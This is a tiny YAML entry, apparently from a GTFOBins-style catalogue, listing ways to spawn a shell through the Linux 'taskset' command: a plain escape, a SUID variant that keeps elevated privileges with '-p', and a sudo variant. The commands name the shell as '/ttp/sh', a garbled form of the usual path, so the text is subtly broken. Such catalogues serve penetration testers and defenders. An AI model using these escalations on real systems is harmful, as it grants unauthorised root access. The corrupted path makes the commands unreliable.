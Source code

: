 ```yaml
---
functions:
  shell:
    - code: taskset 1 /ttp/sh
  suid:
    - code: ./taskset 1 /ttp/sh -p
  sudo:
    - code: sudo taskset 1 /ttp/sh
---
```


